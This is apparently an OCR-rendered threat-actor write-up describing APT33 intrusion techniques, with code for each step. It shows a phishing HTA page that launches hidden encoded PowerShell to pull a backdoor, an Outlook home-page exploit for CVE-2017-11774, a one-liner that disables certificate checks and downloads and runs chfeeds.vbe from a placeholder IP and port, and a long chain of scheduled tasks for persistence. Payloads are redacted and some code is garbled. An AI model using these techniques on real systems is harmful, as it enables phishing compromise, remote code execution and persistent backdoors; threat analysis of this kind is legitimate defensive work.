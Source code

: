 # APT33

## Features

1. When sending phishing email, it will contain a link to a malicious HTA file, which will download the back door of the organization.

```HTA
# Please Wait. Loading ...
<h1>Please Wait. Loading ...</h1>
<head>
<title>Supply Specialist , Riyadh,Alsalam Aircraft Company</title>
</head>

'''
 <script>
a=new ActiveXObject("WScript.Shell");
a.run('%windir%\\System32\\cmd.exe /c powershell -window hidden -enc [Command after coding]', 0);
//Call PowerShell download backdoor
</script>

'''
```

2. Make the target download malicious files by setting the Outlook home page security bypass vulnerability (CVE-2017-11774).

```html
<html>
<head>
<meta http-equiv="Content-Language" content="en-us">
<meta http-equiv="Content-Type" content="text/html; charset=windows-1252">
<title>Outlook</title>
<script id=clientEventHandlersVBS language=vbscript>
<!--
  Sub window_onload()
         Set Application = ViewCtll.OutlookApplication
         Set cmd = Application.CreateObject("Wscript.shell')
         //Create Wscript.shell type object
         cmd.Run "cmd /c powershell.exe-w l -noni -nop -en  [Base64 encryption command]", 0, True
         //Use PowerShell to download backdoor
  End sub
-->
</script>
</head>

<body>
  <object classid="clsid:0006F063-0000-0000-C000-000000000046" id="ViewCtl1" data="" width="100%" height="100%"></object>
  //嵌入对象OutlookViewCtl CLSID
</body>
</html>
```

3. Write a malicious Url address in the phishing email. When the victim clicks it, the HTA file will be downloaded, and the file will download chfeeds.vbe to act as a downloader.

```HTA
[System.Net.ServicePointManager]::ServerCertificateValidationCallback={$true};IEX(New-Object Net.WebClient).DownloadString('https://IP:port/chfeeds.vbe');
```

4. Use the JavaScript command to create a scheduled task using schtasks. The scheduled task will execute chfeeds.vbe download at a fixed point every day.

```JavaScript
a.	run('%windir%\\System32\\cmd.exe /c PowerShell -window hidden schtasks.exe /CREATE /SC DAILY /TN "1" /TR "C:\\Users\\%username%\\AppData\\Local\\Microsoft\\Feeds\\chfeeds.vbe" /ST 01:00 /f
//Create a scheduled task named 1 and run chfeeds.vbe at 1:00 every day
&& schtasks.exe /CREATE /SC DAILY /TN "3" /TR "C:\\Users\\%username%\\AppData\\Local\\Microsoft\\Feeds\\chfeeds.vbe" /ST 03:00 /f && schtasks.exe /CREATE /SC DAILY /TN "5" /TR "C:\\Users\\%username%\\AppData\\Local\\Microsoft\\Feeds\\chfeeds.vbe" /ST 05:00 /f && schtasks.exe /CREATE /SC DAILY /TN "7" /TR "C:\\Users\\%username%\\AppData\\Local\\Microsoft\\Feeds\\chfeeds.vbe" /ST 07:00 /f && schtasks.exe /CREATE /SC DAILY /TN "9" /TR "C:\\Users\\%username%\\AppData\\Local\\Microsoft\\Feeds\\chfeeds.vbe" /ST 09:00 /f && schtasks.exe /CREATE /SC DAILY /TN "11" /TR "C:\\Users\\%username%\\AppData\\Local\\Microsoft\\Feeds\\chfeeds.vbe" /ST 11:00 /f && schtasks.exe /CREATE /SC DAILY /TN "13" /TR "C:\\Users\\%username%\\AppData\\Local\\Microsoft\\Feeds\\chfeeds.vbe" /ST 13:00 /f && schtasks.exe /CREATE /SC DAILY /TN "15" /TR "C:\\Users\\%username%\\AppData\\Local\\Microsoft\\Feeds\\chfeeds.vbe" /ST 15:00 /f && schtasks.exe /CREATE /SC DAILY /TN "17" /TR "C:\\Users\\%username%\\AppData\\Local\\Microsoft\\Feeds\\chfeeds.vbe" /ST 17:00 /f && schtasks.exe /CREATE /SC DAILY /TN "19" /TR "C:\\Users\\%username%\\AppData\\Local\\Microsoft\\Feeds\\chfeeds.vbe" /ST 19:00 /f && schtasks.exe /CREATE /SC DAILY /TN "21" /TR "C:\\Users\\%username%\\AppData\\Local\\Microsoft\\Feeds\\chfeeds.vbe" /ST 21:00 /f && schtasks.exe /CREATE /SC DAILY /TN "23" /TR "C:\\Users\\%username%\\AppData\\Local\\Microsoft\\Feeds\\chfeeds.vbe" /ST 23:00 /f ')
```
